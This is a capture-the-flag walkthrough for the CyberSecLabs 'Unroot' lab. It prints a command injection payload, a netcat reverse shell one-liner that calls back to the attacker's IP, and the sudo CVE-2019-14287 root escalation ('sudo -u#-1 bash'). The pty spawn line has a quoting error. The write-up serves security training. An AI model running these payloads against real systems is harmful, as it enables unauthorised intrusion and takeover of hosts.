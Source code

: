 #CyberSecLabs : Unroot

```zsh
nmap -sC -sV -p 22,80 172.31.1.17 -v
```
Nothing special, ssh and website. Directory fuzz it.

```zsh
python3 /root/dirsearch/dirsearch.py -u http://172.31.1.17:80 -e r -R 3
```

Interesting dir ```[07:38:15] 200 -    1KB - /dev/```
It has OS command injection

Enter an IP and a basic command to see if we have command exec
```
10.10.0.40 && whoami
```

You will see the command executes.Now,we will get a shell.

```
10.10.0.40 && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.0.40 443 >/tmp/f
```

Spawn a tty shell using ```python -c 'import pty;pty.spawn("/bin/bash)'```

Now you will have a shell as ```joe```. 
Do a ```sudo -l``` and you will notice this

```
(ALL, !root) NOPASSWD: ALL
```
!root - notice that ? weird, it means you joe can run anything as any user as root. But this has vuln and it is the ```CVE-2019-14287```

```zsh
sudo -u#-1 bash  
```

For more reading on this vuln look for:
https://resources.whitesourcesoftware.com/blog-whitesource/new-vulnerability-in-sudo-cve-2019-14287

Cheers !